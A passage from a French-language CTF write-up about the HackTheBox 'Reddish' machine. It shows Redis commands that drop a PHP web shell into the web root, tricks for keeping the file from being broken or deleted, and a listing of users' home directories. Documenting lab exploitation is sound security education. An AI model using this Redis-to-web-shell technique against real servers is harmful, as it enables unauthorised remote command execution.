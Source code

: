 Malheureusement pas de serveur SSH accessible ici, l’intérêt est donc très limité. En revanche la présence du serveur web nous incite à tester l'autre scénario consistant à écrire du code PHP sous la racine web */var/www/html*.  

Pour celà on envoie les commandes suivantes au Redis :  

```plain
config set dir /var/www/html
set dbfilename devloop.php
set payload "<?php system($_GET['cmd']); ?>
save
```

A noter que payload est un nom de clé pris pour l'exemple, on peut mettre ce que l'on veut. Le Redis acquiesce sans broncher (série de réponses OK) puis on obtient finalement notre shell.  

![HackTheBox Reddish CTF Redis exploitation leading to PHP backdoor](https://github.com/devl00p/blog/raw/master/images/htb/reddish/reddish_www_container.png)

J'ai toutefois noté deux problèmes récurrents :  

* L'existence d'autres clés/valeurs dans le Redis peut mener à un fichier PHP avec des problèmes d'encodage qui ne sera alors pas interprété :(
* Une tâche semble supprimer le fichier uploadé rapidement

Pour régler le premier problème j'ai mis un commentaire ouvrant à la fin de mon script PHP et omis de le fermer (tout comme le tag PHP). PHP est en effet assez permissif, il faillait exploiter l'une de ces caractéristiques pour résoudre [le CTF Homeless](http://devloop.users.sourceforge.net/index.php?article150/solution-du-ctf-homeless-de-vulnhub).  

Pour le second problème j'ai vu que les dotfiles ne semblent pas supprimées par la tache, il suffit donc de préfixer notre nom de fichier par un point.  

Sur cette machine où l'on dispose de droits restreints (www-data) on peut voir les dossiers personnels de deux utilisateurs du système :  

```plain
/home:
total 32
drwxr-xr-x 5 root root  4096 Jul 15  2018 .
drwxr-xr-x 1 root root  4096 Jul 15  2018 ..
drwxr-xr-x 2 1001 1001  4096 Jul 16  2018 bergamotto
drwx------ 2 root root 16384 Apr  1  2018 lost+found
drwxr-xr-x 2 1000 1000  4096 Jul 16  2018 somaro

/home/bergamotto:
total 20
drwxr-xr-x 2 1001 1001 4096 Jul 16  2018 .
drwxr-xr-x 5 root root 4096 Jul 15  2018 ..
lrwxrwxrwx 1 root root    9 Jul 16  2018 .bash_history -> /dev/null
-rw-r--r-- 1 1001 1001  220 May  2  2018 .bash_logout
-rw-r--r-- 1 1001 1001 3771 May  2  2018 .bashrc
-rw-r--r-- 1 1001 1001  655 May  2  2018 .profile

/home/somaro:
total 24
drwxr-xr-x 2 1000 1000 4096 Jul 16  2018 .
drwxr-xr-x 5 root root 4096 Jul 15  2018 ..
lrwxrwxrwx 1 root root    9 Jul 16  2018 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Apr 23  2018 .bash_logout
-rw-r--r-- 1 1000 1000 3771 Apr 23  2018 .bashrc
-rw-r--r-- 1 1000 1000  655 Apr 23  2018 .profile
-r-------- 1 1000 1000   33 Apr 23  2018 user.txt
```